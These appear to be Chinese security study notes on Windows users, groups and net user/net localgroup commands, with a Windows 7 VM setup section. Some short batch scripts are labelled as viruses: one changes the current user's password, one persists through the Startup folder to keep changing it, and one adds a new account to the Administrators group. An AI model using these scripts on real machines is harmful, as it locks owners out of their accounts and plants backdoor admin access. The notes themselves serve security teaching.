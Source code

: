 # 学习用户与组、win8虚拟机下载配置
## 用户与组
windows 用户
- 给人使用的账户：
1. administrator	管理员账户仅次于 system 的权限
2. guest		来宾（游客） 最新权限
普通用户	在操作系统中新创建的用户

- 计算机服务组件相关账户（机器人）：
1. system	系统账户	至高权限
2. local services	本地服务账户;权限等同普通用户
3. network services  网络服务账户;权限等同普通用户

用户管理界面：

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8768.png)

创建新用户

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8769.png)

**默认**情况下，windows 系统中，**账户的密码最长有效期为 42 天**
【家文件夹】只有在对应账户首次登录之后才会生成。

（1）预定义变量 %userprofile%      
%userprofile%  =  “C:\documents and settings”   
相当于  copy 1.bat ”C:\documents and settings\「开始」菜单\程序\启动” 
= copy 1.bat ”%userprofile%\「开始」菜单\程序\启动”

可通过echo去查看%userprofile%，echo %userprofile%，会显示在C:\documents and settings

表示 当前操作系统用户的 配置文件夹（家目录）,通过该变量可以保证将文件写入不同用户的启动\桌面等个人文件夹中
  copy 1.bat ”%userprofile%\「开始」菜单\程序\启动”
  echo 123456 >> ”%userprofile%\桌面\666666.txt”

%username%
表示当前操作系统用户的账户名称

（2）账户命令
net user  查看当前系统的用户列表

net user /add  通过命令添加新用户
net user yanxinyuan 123.com /add   
新建一个账户名为yanxinyuan，密码为123.com

net user /del  删除一个已有用户
   net user shenyoujia /del   
     将账户shenyoujia删除

net user  wangdandan 123   
将账户wangdandan的密码改为123

（3）net user 用户名   查看当前账户的详细信息
net user administrator 
查看administrator账户的详细信息

（4）whoami 查看当前账户的计算机名和用户名
执行whoami之后，可以看下图效果
可以通过右键我的电脑→属性→计算机名→完整的计算机名查看

Whoami /user  显示计算机名、用户名以及SID，这个命令的作用在于，做渗透测试时，可以用本命令看一下自己的账号级别能干什么，甚至有可能做测试的时候会拿到system权限账号（最高权限，比管理员权限高）。SID中，最后一段表示账户的序号。新建的用户需要默认从1000开始，依次累加，administrator账户的序号是500。



【创建用户小程序】
@echo off
echo===============================================
echo                  系统用户创建工具
echo===============================================
set /p u=请输入用户名
set /p p=请输入登录密码
net user %u% %p% /add
echo 恭喜您账户创建成功
echo 您的用户名为：%u%
echo 您的密码为：%p%
echo 注销当前账户后，在操作系统登录界面可使用新账户
pause

【修改密码病毒】
@echo off
net user %username% 123  把当前账户的密码改为123
管理员账户一般都支持远程登陆，如果这个漏洞修改的是管理员的密码就非常的危险

（5）组是用来盛放用户的容器，用户处于不同的组当中就会拥有不同的权限
administrators        管理员组
guests                来宾组
    users                 普通用户组
    network               网络配置组 
    print                  打印机组 
    Rmote desktop       远程桌面组
                  
A、在组中添加用户
在组管理中右击某个具体的组名称

之后点击，添加，在界面中填写某个用户名，而且将该用户置于当前组中


B、将用户从组中移除
 在组管理中找到一个组，右击组名称，选择“属性”，之后在列表中选中一个用户名，最后点击“删除”



（6）组管理命令
 net localgroup   查看组列表
 
 net localgroup 组名    查看组中的成员
net localgroup users  查看users组中存在哪些账户

 net localgroup 组名 用户名 /add
 net localgroup administrators cuizhiqiang /add
把账户cuizhiqiang提升为超级管理员

net localgroup 组名 用户名 /del
net localgroup administrators cuizhiqiang /del
  把账户cuizhiqiang从管理员组移除 

【密码修改病毒-顽固版】
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user %username% 123

每次受害者找回密码后，只能使用一次新密码，当第二次登录时又会被篡改

【获取新管理员账号病毒】
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user wangdandan1058 123 /add
net localgroup administrators wangdandan1058 /add
 
（7）window7 虚拟机安装
安装时选择“自定义”（安装新的windows系统）


在划分磁盘时，选中计算机的硬盘，之后点击“驱动器选项”

接着点击“新建”



当一个分区划分完毕后，选中“未分配空间”之后点击“新建”，来划分其它的分区


安装时需要填写用户名


设置完用户名之后，填写登录密码

输入密钥的界面，取系勾选“自动激活”，之后点击“跳过”




网络类型选择
